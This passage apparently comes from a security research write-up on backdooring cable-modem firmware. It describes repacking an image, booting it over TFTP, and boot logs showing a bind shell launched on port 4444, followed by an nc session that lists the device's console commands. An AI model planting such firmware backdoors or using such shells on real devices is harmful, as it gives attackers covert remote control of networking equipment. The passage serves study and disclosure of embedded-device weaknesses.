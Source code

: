 We repack it, serve it over TFTP and let it boot. As we can see from the boot logs below, our malicious code is executing successfully.

Note that if we wanted our code to run in a single window without being preempted by the scheduler, we could add calls to `cyg_scheduler_lock` and `cyg_scheduler_unlock`. This way our logs would no longer be spread around in the boot logs :)

{% highlight asm %}
--boot--
ItcRxThreadCreating SNMP agent eRouter Proxy Agent
eRouter Proxy Agent disabling management.
eRouter Proxy Agent deferring traps.
Enabling SNMP proxy
Vendor CM Agent w/ BRCM Factory Support destroying notifies...
[!] LAUNCHING BACKDOOR
Warning: service [: Current IP address is default 0.0.0.0.

Configuring IP stack 2:  IP Address = 192.168.100.1
[+] Launching bind shell on 0.0.0.0:4444
--snip--
[00:00:19 01/01/1970] [tStartup] BcmNonVolDeviceDriverBridge::WriteSync:  (NonVol Device) Synchronous write to dynamic nonvol section succeeded
BcmSnmpThread starting thread operation.
Received RG Event 0x80000001 State 0x0
Received eRouter BOOTED event from RG
Enabling SNMP proxy
Initializing Net-SNMP transport for IPv4
Initializing Net-SNMP transport for IPv6
SNMP startup complete.
SpecA - IP Stack address is 0.0.0.0
mongoose set_ports_option: listening on:(IPv4) 0.0.0.0; port:8080
[+] bind successful
--snip--
AVS Thread Start:Arming poll timer....
NvPollMilliseconds = 1000
RMON = 1.042, sigma = 0.702
[+] listen successful0PMC AVS Thread Start: Done.
{% endhighlight %}

The device is fully functional, and we have a bind shell:

{% highlight asm %}
nc 192.168.22.1 4444
ls
!               ?               REM             call            cd
dir             find_command    help            history         instances
ls              man             pwd             sleep           syntax
system_time     usage
----
btcp            con_high        cpuLoad         cpuUtilization  exit
mbufShow        memShow         mutex_debug     ping            read_memory
reset           routeShow       run_app         shell           socket_debug
stackShow       taskDelete      taskInfo        taskPrioritySet taskResume
taskShow        taskSuspend     taskSuspendAll  taskTrace       version
write_memory    zone
----
[80211_hal] [Console] [HeapManager] [HostDqm] [cablemedea] [eRouter]
[embedded_target] [enet_hal] [fam] [forwarder] [ftpLite] [httpClient]
[ip_hal] [itc_hal] [msgLog] [non-vol] [pingHelper] [power] [snmp] [snoop]
[tr69]
{% endhighlight %}
